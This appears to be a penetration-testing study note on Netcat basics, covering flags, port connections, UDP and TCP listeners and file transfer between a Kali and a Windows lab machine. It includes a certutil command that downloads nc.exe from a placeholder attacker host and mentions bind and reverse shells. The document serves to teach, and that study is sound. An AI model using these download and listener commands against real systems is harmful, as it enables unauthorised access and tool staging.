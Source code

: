 # Netcat Fundamentals

* Netcat is a networking utility used to read and write data to network connections using TCP or UDP.
* Netcat is available for both \*NIX and Windows operating systems, consequently making it extremely useful for cross-platform engagements.
* Netcat utilizes a client-server communication architecture with two modes:&#x20;
  * <mark style="color:red;">Client mode</mark> - Netcat can be used in client mode to connect to any TCP/UDP port as well as a Netcat listener (server)
  * <mark style="color:red;">Server mode</mark> - Netcat can be used to listen for connections from clients on a specific port.
* Netcat can be used by penetration testers to perform the following functionality:
  * <mark style="color:blue;">Banner Grabbing</mark>
  * <mark style="color:blue;">Port Scanning</mark>
  * <mark style="color:blue;">Transferring Files</mark>
  * <mark style="color:blue;">Bind/Reverse Shells</mark>

## Practice Demo

### Using Netcat on Kali Linux

* <mark style="color:yellow;">nc --help</mark>
* <mark style="color:yellow;">man nc</mark>
* <mark style="color:yellow;">-u</mark>: Connect to UDP or set up a UDP listener
* <mark style="color:yellow;">-l</mark>: Set up listener
* <mark style="color:yellow;">-n</mark>: Do not resolve hostname via DNS
* <mark style="color:yellow;">-e</mark>: Allows you to execute a specific command
* <mark style="color:yellow;">-v</mark>: verbose

#### &#x20;Connect to ports&#x20;

* <mark style="color:yellow;">nc targetIP targetPORT</mark>
  * Doesn't give any output because verbose if off
* <mark style="color:yellow;">nc -nv targetIP targetPORT</mark>

#### Connect to UDP port

* <mark style="color:yellow;">nc -nvu targetIP targetPORT</mark>

#### Open UDP listener

* <mark style="color:yellow;">nc -nvlup 1234</mark>

#### Setup a listener (Server mode)

To achieve this, since Windows doesn't come with netcat installed...we will setup a web server hosting our netcat executable that comes with Kali at:

* <mark style="color:yellow;">/usr/share/windows-binaries</mark>

#### Opening the web server on the kali

* <mark style="color:yellow;">python -m SimpleHTTPServer 80</mark>

#### Downloading on Windows through the command prompt

* <mark style="color:yellow;">certutil -urlcache -f http://attackerIP/nc.exe nc.exe</mark>

#### Setting up the listener on the Kali

* <mark style="color:yellow;">nc -nvlp 1234</mark>

#### Connecting from the Windows to the listener on the Kali

* <mark style="color:yellow;">nc.exe .nv kaliIP 1234</mark>

You can send messages from one machine to the other now.

### Transfer files with netcat

You need a listener that is going to receive the file.

We are going to transfer a file from the kali to the Windows

#### Set up the listener port on Windows

* <mark style="color:yellow;">nc.exe -nvlp 1234 >  test.txt</mark>
  * Everything that comes will be saved to the file "test.txt"

#### Sending the file from the Kali

* <mark style="color:yellow;">nc -nv targetIP 1234 < test.txt</mark>

